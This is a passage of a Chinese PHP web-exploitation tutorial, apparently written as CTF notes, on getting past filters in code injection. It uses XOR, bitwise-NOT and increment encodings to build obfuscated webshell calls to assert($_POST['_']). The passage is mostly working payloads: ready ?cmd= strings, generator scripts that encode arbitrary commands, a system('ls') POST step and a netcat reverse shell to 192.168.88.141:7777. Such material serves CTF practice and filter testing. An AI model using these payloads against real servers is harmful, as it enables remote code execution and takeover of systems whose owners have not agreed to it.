echo "<br>";
echo "异或运算第二部分： ".$result2;
```

如果其中有+号，会被识别为空格，此时将+变成url编码即可

```php
<?php
$a='assert';
$b='_POST';
$c=$$b;      //$c=$_POST
$a($c['_']); //assert($_POST['_']);
?>
```

替换为

```php
<?php
$_="!((%)("^"@[[@[\\"; # assert
$__="!+/(("^"~{`{|"; # _POST
$___=$$__;
$_($___['_']);
```

```php
?cmd=$_="!((%)("^"@[[@[\\";$__="!+/(("^"~{`{|";$___=$$__;$_($___['_']);
然后再在POST提交_=system('ls');即可
```


```php
利用反引号
<?php
$_="!+/(("^"~{`{|"; # _POST
$__=$$_;
`$__[_]`;
?>
```

```php
?cmd=$_="!+/(("^"~{`{|";$__=$$_;`$__['_']`;
再在POST上提交_=nc 192.168.88.141 7777 -e /bin/bash
```


### 取反绕过

~取反符号

```php
<?php
$a="a";
echo bin2hex($a);
?>
a的十六进制是61，二进制是01100001，取反后是
           			  10011110，对应十六进制是9E
<?php
$a="%9E";
$b=~(urldecode($a));
echo $b;
?>
输出为a
```


```php
<?php
$a="极"; # 极的url编码是 e6 9e 81，那么取第二个即是我们需要的字母，0位e6，1位9e，2位81
echo bin2hex($a);
echo ~($a{1});
```

```php
<?php
$_=("%9e%8c%8c%9a%8d%8b"); # assert
$__=~("%a0%af%b0%ac%ab"); # _POST
$___=$$__;
$_($__[_]);
```

```php
<?php
$__=~("%a0%af%b0%ac%ab"); # _POST
$___=$$__;
`$___[_]`;          #利用反引号，然后用nc反弹shell即可
```

```php
?cmd=$_=("%9e%8c%8c%9a%8d%8b");$__=~("%a0%af%b0%ac%ab");$___=$$__;$_($__[_]);
再通过POST提交$_的值就可以了
```

这是取反脚本

```php
<?php
header("Content-type:text/html;charset=utf-8");
error_reporting(0);
$shell = $_GET['cmd'];
$result = "";
$arr =array();
$word = "一乙二十丁厂七卜人入八九几儿了力乃刀又三于干亏士工土才寸下大丈与万上小口巾山千乞川亿个勺久凡及夕丸么广亡门义之尸弓己已子卫也女飞刃习叉马乡丰王井开夫天无元专云扎艺
木五支厅不太犬区历尤友匹车巨牙屯比互切瓦止少日中冈贝内水见午牛手毛气升长仁什片仆化仇币仍仅斤爪反介父从今凶分乏公仓月氏勿欠风丹匀乌凤勾文六方火为斗忆订计户认心尺引
丑巴孔队办以允予劝双书幻玉刊示末未击打巧正扑扒功扔去甘世古节本术可丙左厉右石布龙平灭轧东卡北占业旧帅归且旦目叶甲申叮电号田由史只央兄叼叫另叨叹四生失禾丘付仗代仙们
仪白仔他斥瓜乎丛令用甩印乐句匆册犯外处冬鸟务包饥主市立闪兰半汁汇头汉宁穴它讨写让礼训必议讯记永司尼民出辽奶奴加召皮边发孕圣对台矛纠母幼丝式刑动扛寺吉扣考托老执巩圾
扩扫地扬场耳共芒亚芝朽朴机权过臣再协西压厌在有百存而页匠夸夺灰达列死成夹轨邪划迈毕至此贞师尘尖劣光当早吐吓虫曲团同吊吃因吸吗屿帆岁回岂刚则肉网年朱先丢舌竹迁乔伟传
乒乓休伍伏优伐延件任伤价份华仰仿伙伪自血向似后行舟全会杀合兆企众爷伞创肌朵杂危旬旨负各名多争色壮冲冰庄庆亦刘齐交次衣产决充妄闭问闯羊并关米灯州汗污江池汤忙兴宇守宅
字安讲军许论农讽设访寻那迅尽导异孙阵阳收阶阴防奸如妇好她妈戏羽观欢买红纤级约纪驰巡寿弄麦形进戒吞远违运扶抚坛技坏扰拒找批扯址走抄坝贡攻赤折抓扮抢孝均抛投坟抗坑坊抖
护壳志扭块声把报却劫芽花芹芬苍芳严芦劳克苏杆杠杜材村杏极李杨求更束豆两丽医辰励否还歼来连步坚旱盯呈时吴助县里呆园旷围呀吨足邮男困吵串员听吩吹呜吧吼别岗帐财针钉告我
乱利秃秀私每兵估体何但伸作伯伶佣低你住位伴身皂佛近彻役返余希坐谷妥含邻岔肝肚肠龟免狂犹角删条卵岛迎饭饮系言冻状亩况床库疗应冷这序辛弃冶忘闲间闷判灶灿弟汪沙汽沃泛沟
没沈沉怀忧快完宋宏牢究穷灾良证启评补初社识诉诊词译君灵即层尿尾迟局改张忌际陆阿陈阻附妙妖妨努忍劲鸡驱纯纱纳纲驳纵纷纸纹纺驴纽奉玩环武青责现表规抹拢拔拣担坦押抽拐拖
拍者顶拆拥抵拘势抱垃拉拦拌幸招坡披拨择抬其取苦若茂苹苗英范直茄茎茅林枝杯柜析板松枪构杰述枕丧或画卧事刺枣雨卖矿码厕奔奇奋态欧垄妻轰顷转斩轮软到非叔肯齿些虎虏肾贤尚
旺具果味昆国昌畅明易昂典固忠咐呼鸣咏呢岸岩帖罗帜岭凯败贩购图钓制知垂牧物乖刮秆和季委佳侍供使例版侄侦侧凭侨佩货依的迫质欣征往爬彼径所舍金命斧爸采受乳贪念贫肤肺肢肿
胀朋股肥服胁周昏鱼兔狐忽狗备饰饱饲变京享店夜庙府底剂郊废净盲放刻育闸闹郑券卷单炒炊炕炎炉沫浅法泄河沾泪油泊沿泡注泻泳泥沸波泼泽治怖性怕怜怪学宝宗定宜审宙官空帘实试
郎诗肩房诚衬衫视话诞询该详建肃录隶居届刷屈弦承孟孤陕降限妹姑姐姓始驾参艰线练组细驶织终驻驼绍经贯奏春帮珍玻毒型挂封持项垮挎城挠政赴赵挡挺括拴拾挑指垫挣挤拼挖按挥挪
某甚革荐巷带草茧茶荒茫荡荣故胡南药标枯柄栋相查柏柳柱柿栏树要咸威歪研砖厘厚砌砍面耐耍牵残殃轻鸦皆背战点临览竖省削尝是盼眨哄显哑冒映星昨畏趴胃贵界虹虾蚁思蚂虽品咽骂
哗咱响哈咬咳哪炭峡罚贱贴骨钞钟钢钥钩卸缸拜看矩怎牲选适秒香种秋科重复竿段便俩贷顺修保促侮俭俗俘信皇泉鬼侵追俊盾待律很须叙剑逃食盆胆胜胞胖脉勉狭狮独狡狱狠贸怨急饶蚀
饺饼弯将奖哀亭亮度迹庭疮疯疫疤姿亲音帝施闻阀阁差养美姜叛送类迷前首逆总炼炸炮烂剃洁洪洒浇浊洞测洗活派洽染济洋洲浑浓津恒恢恰恼恨举觉宣室宫宪突穿窃客冠语扁袄祖神祝误
诱说诵垦退既屋昼费陡眉孩除险院娃姥姨姻娇怒架贺盈勇怠柔垒绑绒结绕骄绘给络骆绝绞统耕耗艳泰珠班素蚕顽盏匪捞栽捕振载赶起盐捎捏埋捉捆捐损都哲逝捡换挽热恐壶挨耻耽恭莲莫
荷获晋恶真框桂档桐株桥桃格校核样根索哥速逗栗配翅辱唇夏础破原套逐烈殊顾轿较顿毙致柴桌虑监紧党晒眠晓鸭晃晌晕蚊哨哭恩唤啊唉罢峰圆贼贿钱钳钻铁铃铅缺氧特牺造乘敌秤租积
秧秩称秘透笔笑笋债借值倚倾倒倘俱倡候俯倍倦健臭射躬息徒徐舰舱般航途拿爹爱颂翁脆脂胸胳脏胶脑狸狼逢留皱饿恋桨浆衰高席准座脊症病疾疼疲效离唐资凉站剖竞部旁旅畜阅羞瓶拳
粉料益兼烤烘烦烧烛烟递涛浙涝酒涉消浩海涂浴浮流润浪浸涨烫涌悟悄悔悦害宽家宵宴宾窄容宰案请朗诸读扇袜袖袍被祥课谁调冤谅谈谊剥恳展剧屑弱陵陶陷陪娱娘通能难预桑绢绣验继
球理捧堵描域掩捷排掉堆推掀授教掏掠培接控探据掘职基著勒黄萌萝菌菜萄菊萍菠营械梦梢梅检梳梯桶救副票戚爽聋袭盛雪辅辆虚雀堂常匙晨睁眯眼悬野啦晚啄距跃略蛇累唱患唯崖崭崇
圈铜铲银甜梨犁移笨笼笛符第敏做袋悠偿偶偷您售停偏假得衔盘船斜盒鸽悉欲彩领脚脖脸脱象够猜猪猎猫猛馅馆凑减毫麻痒痕廊康庸鹿盗章竟商族旋望率着盖粘粗粒断剪兽清添淋淹渠渐
混渔淘液淡深婆梁渗情惜惭悼惧惕惊惨惯寇寄宿窑密谋谎祸谜逮敢屠弹随蛋隆隐婚婶颈绩绪续骑绳维绵绸绿琴斑替款堪搭塔越趁趋超提堤博揭喜插揪搜煮援裁搁搂搅握揉斯期欺联散惹葬
葛董葡敬葱落朝辜葵棒棋植森椅椒棵棍棉棚棕惠惑逼厨厦硬确雁殖裂雄暂雅辈悲紫辉敞赏掌晴暑最量喷晶喇遇喊景践跌跑遗蛙蛛蜓喝喂喘喉幅帽赌赔黑铸铺链销锁锄锅锈锋锐短智毯鹅剩
稍程稀税筐等筑策筛筒答筋筝傲傅牌堡集焦傍储奥街惩御循艇舒番释禽腊脾腔鲁猾猴然馋装蛮就痛童阔善羡普粪尊道曾焰港湖渣湿温渴滑湾渡游滋溉愤慌惰愧愉慨割寒富窜窝窗遍裕裤裙
谢谣谦属屡强粥疏隔隙絮嫂登缎缓编骗缘瑞魂肆摄摸填搏塌鼓摆携搬摇搞塘摊蒜勤鹊蓝墓幕蓬蓄蒙蒸献禁楚想槐榆楼概赖酬感碍碑碎碰碗碌雷零雾雹输督龄鉴睛睡睬鄙愚暖盟歇暗照跨跳
跪路跟遣蛾蜂嗓置罪罩错锡锣锤锦键锯矮辞稠愁筹签简毁舅鼠催傻像躲微愈遥腰腥腹腾腿触解酱痰廉新韵意粮数煎塑慈煤煌满漠源滤滥滔溪溜滚滨粱滩慎誉塞谨福群殿辟障嫌嫁叠缝缠静
碧璃墙撇嘉摧截誓境摘摔聚蔽慕暮蔑模榴榜榨歌遭酷酿酸磁愿需弊裳颗嗽蜻蜡蝇蜘赚锹锻舞稳算箩管僚鼻魄貌膜膊膀鲜疑馒裹敲豪膏遮腐瘦辣竭端旗精歉熄熔漆漂漫滴演漏慢寨赛察蜜谱
嫩翠熊凳骡缩慧撕撒趣趟撑播撞撤增聪鞋蕉蔬横槽樱橡飘醋醉震霉瞒题暴瞎影踢踏踩踪蝶蝴嘱墨镇靠稻黎稿稼箱箭篇僵躺僻德艘膝膛熟摩颜毅糊遵潜潮懂额慰劈操燕薯薪薄颠橘整融醒餐
嘴蹄器赠默镜赞篮邀衡膨雕磨凝辨辩糖糕燃澡激懒壁避缴戴擦鞠藏霜霞瞧蹈螺穗繁辫赢糟糠燥臂翼骤鞭覆蹦镰翻鹰警攀蹲颤瓣爆疆壤耀躁嚼嚷籍魔灌蠢霸露囊罐匕刁丐歹戈夭仑讥冗邓艾
夯凸卢叭叽皿凹囚矢乍尔冯玄邦迂邢芋芍吏夷吁吕吆屹廷迄臼仲伦伊肋旭匈凫妆亥汛讳讶讹讼诀弛阱驮驯纫玖玛韧抠扼汞扳抡坎坞抑拟抒芙芜苇芥芯芭杖杉巫杈甫匣轩卤肖吱吠呕呐吟呛
吻吭邑囤吮岖牡佑佃伺囱肛肘甸狈鸠彤灸刨庇吝庐闰兑灼沐沛汰沥沦汹沧沪忱诅诈罕屁坠妓姊妒纬玫卦坷坯拓坪坤拄拧拂拙拇拗茉昔苛苫苟苞茁苔枉枢枚枫杭郁矾奈奄殴歧卓昙哎咕呵咙
呻啰咒咆咖帕账贬贮氛秉岳侠侥侣侈卑刽刹肴觅忿瓮肮肪狞庞疟疙疚卒氓炬沽沮泣泞泌沼怔怯宠宛衩祈诡帚屉弧弥陋陌函姆虱叁绅驹绊绎契贰玷玲珊拭拷拱挟垢垛拯荆茸茬荚茵茴荞荠荤
荧荔栈柑栅柠枷勃柬砂泵砚鸥轴韭虐昧盹咧昵昭盅勋哆咪哟幽钙钝钠钦钧钮毡氢秕俏俄俐侯徊衍胚胧胎狰饵峦奕咨飒闺闽籽娄烁炫洼柒涎洛恃恍恬恤宦诫诬祠诲屏屎逊陨姚娜蚤骇耘耙秦
匿埂捂捍袁捌挫挚捣捅埃耿聂荸莽莱莉莹莺梆栖桦栓桅桩贾酌砸砰砾殉逞哮唠哺剔蚌蚜畔蚣蚪蚓哩圃鸯唁哼唆峭唧峻赂赃钾铆氨秫笆俺赁倔殷耸舀豺豹颁胯胰脐脓逛卿鸵鸳馁凌凄衷郭斋
疹紊瓷羔烙浦涡涣涤涧涕涩悍悯窍诺诽袒谆祟恕娩骏琐麸琉琅措捺捶赦埠捻掐掂掖掷掸掺勘聊娶菱菲萎菩萤乾萧萨菇彬梗梧梭曹酝酗厢硅硕奢盔匾颅彪眶晤曼晦冕啡畦趾啃蛆蚯蛉蛀唬唾
啤啥啸崎逻崔崩婴赊铐铛铝铡铣铭矫秸秽笙笤偎傀躯兜衅徘徙舶舷舵敛翎脯逸凰猖祭烹庶庵痊阎阐眷焊焕鸿涯淑淌淮淆渊淫淳淤淀涮涵惦悴惋寂窒谍谐裆袱祷谒谓谚尉堕隅婉颇绰绷综绽
缀巢琳琢琼揍堰揩揽揖彭揣搀搓壹搔葫募蒋蒂韩棱椰焚椎棺榔椭粟棘酣酥硝硫颊雳翘凿棠晰鼎喳遏晾畴跋跛蛔蜒蛤鹃喻啼喧嵌赋赎赐锉锌甥掰氮氯黍筏牍粤逾腌腋腕猩猬惫敦痘痢痪竣翔
奠遂焙滞湘渤渺溃溅湃愕惶寓窖窘雇谤犀隘媒媚婿缅缆缔缕骚瑟鹉瑰搪聘斟靴靶蓖蒿蒲蓉楔椿楷榄楞楣酪碘硼碉辐辑频睹睦瞄嗜嗦暇畸跷跺蜈蜗蜕蛹嗅嗡嗤署蜀幌锚锥锨锭锰稚颓筷魁衙
腻腮腺鹏肄猿颖煞雏馍馏禀痹廓痴靖誊漓溢溯溶滓溺寞窥窟寝褂裸谬媳嫉缚缤剿赘熬赫蔫摹蔓蔗蔼熙蔚兢榛榕酵碟碴碱碳辕辖雌墅嘁踊蝉嘀幔镀舔熏箍箕箫舆僧孵瘩瘟彰粹漱漩漾慷寡寥
谭褐褪隧嫡缨撵撩撮撬擒墩撰鞍蕊蕴樊樟橄敷豌醇磕磅碾憋嘶嘲嘹蝠蝎蝌蝗蝙嘿幢镊镐稽篓膘鲤鲫褒瘪瘤瘫凛澎潭潦澳潘澈澜澄憔懊憎翩褥谴鹤憨履嬉豫缭撼擂擅蕾薛薇擎翰噩橱橙瓢蟥
霍霎辙冀踱蹂蟆螃螟噪鹦黔穆篡篷篙篱儒膳鲸瘾瘸糙燎濒憾懈窿缰壕藐檬檐檩檀礁磷了瞬瞳瞪曙蹋蟋蟀嚎赡镣魏簇儡徽爵朦臊鳄糜癌懦豁臀藕藤瞻嚣鳍癞瀑襟璧戳攒孽蘑藻鳖蹭蹬簸簿蟹
靡癣羹鬓攘蠕巍鳞糯譬霹躏髓蘸镶瓤矗";
function mb_str_split( $string ) {
    return preg_split('/(?<!^)(?!$)/u', $string );
}
foreach (mb_str_split($word) as $c)
{
    $arr[] = $c;
}

for ($x=0;$x<strlen($shell);$x++)
{
    for ($y=0;$y<count($arr);$y++)
    {
        $k = $arr[$y];
        if ($shell[$x] == ~($k{1}))
        {
            $result .= $k;
            $result1 .= "%".bin2hex($k{1});
            break;
        }
    }
}
echo "通过在URL内GET方法提交?cmd=\"具体命令\"";
echo "<br>";
echo "字符串：".$result;
echo "<br>";
echo "URL编码：".$result1;
```

### 自增绕过

```php
<?php
$a=A
echo ++$a;
?>
    输出B
<?php
$a=A
++$a;++$a;++$a;++$a;
echo $a;
?>
    输出E
只要获取A，就可以自增获取BCD...
```

```php
<?php
$_=[].''; 
echo $_[$__];
	输出A
```

原理是\$_=[]的值是Array，但是它本身是不能通过中括号取出第一个字符A的，所以通过 . 来拼接一个空字符串，来将其转化为字符串，从而能够通过$\_[0]来取出A，然后由于0也被过滤无法使用，通过不存在的变量来实现0，\$__这个变量没有被定义而直接被使用，其值为0


这是生成脚本

```php
<?php
highlight_file(__FILE__);
$cmd = strtoupper($_GET['cmd']);
$cmd2 = strtoupper($_GET['post']);
function POC($cmd){
    $i = 0;
    $POC_pat1 = "\$__=\$___;";
    $POC_pat2 = "\$_ .=\$__;";
    while ($i<strlen($cmd)){
        $str1 = $cmd[$i];
        $POC1 = base_convert(bin2hex($str1),16,10)-base_convert(bin2hex("A"),16,10);
        if ($i<1) {
            $POC_pat3 = str_repeat("++\$__;",$POC1);
            echo $POC_pat3;
        }else{
            $str2 = $cmd[$i-1];
            if($str1==$str2){
                $POC_pat5 = $POC_pat2;
                echo $POC_pat5;
            }else{
                $POC_pat6 = $POC_pat1.str_repeat("++\$__;",$POC1).$POC_pat2;
                echo $POC_pat6;
            }
        }
        $i++;
    }
}

function POC2($cmd){
    $i = 0;
    echo '$____ = "_";$__=$___;';
    $POC_pat1 = "\$__=\$___;";
    $POC_pat2 = "\$____ .=\$__;";
    while ($i<strlen($cmd)){
        $str1 = $cmd[$i];
        $POC1 = base_convert(bin2hex($str1),16,10)-base_convert(bin2hex("A"),16,10);
        if ($i<1) {
            $POC_pat3 = str_repeat("++\$__;",$POC1).$POC_pat2;
            echo $POC_pat3;
        }else{
            $str2 = $cmd[$i-1];
            if($str1==$str2){
                $POC_pat5 = $POC_pat2;
                echo $POC_pat5;
            }else{
                $POC_pat6 = $POC_pat1.str_repeat("++\$__;",$POC1).$POC_pat2;
                echo $POC_pat6;
            }
        }
        $i++;
    }
}


if (!empty($cmd)){
    $POC_pat7 = "\$_=[].'';\$___=\$_[\$__];\$__=\$___;\$_=\$___;";
    echo $POC_pat7;
    POC($cmd);
}
if (!empty($cmd2)){
    POC2($cmd2);
}
```

输入?cmd=assert&post=POST后


```php
<?php
$_=[].'';$___=$_[$__];$__=$___;$_=$___;$__=$___;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;$_ .=$__;$_ .=$__;$__=$___;++$__;++$__;++$__;++$__;$_ .=$__;$__=$___;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;$_ .=$__;$__=$___;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;$_ .=$__;$____ = '_';$__=$___;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;$____ .=$__;$__=$___;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;$____ .=$__;$__=$___;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;$____ .=$__;$__=$___;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;$____ .=$__;
echo $_; // ASSERT
echo '
';
echo $____; // _POST
$__ = $$____; // $_POST
$_($__[_]); // assert($_POST[_])
```

```php
$_=[].'';$___=$_[$__];$__=$___;$_=$___;$__=$___;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;$_ .=$__;$_ .=$__;$__=$___;++$__;++$__;++$__;++$__;$_ .=$__;$__=$___;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;$_ .=$__;$__=$___;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;$_ .=$__;$____ = '_';$__=$___;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;$____ .=$__;$__=$___;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;$____ .=$__;$__=$___;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;$____ .=$__;$__=$___;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;$____ .=$__;$__ = $$____;$_($__[_]);
最终POC，然后再post提交_=system('ls');即可，加号会被编码，所以要用urlencode进行编码一下
```


## 分号被过滤

分号被过滤可以使用?>来替代
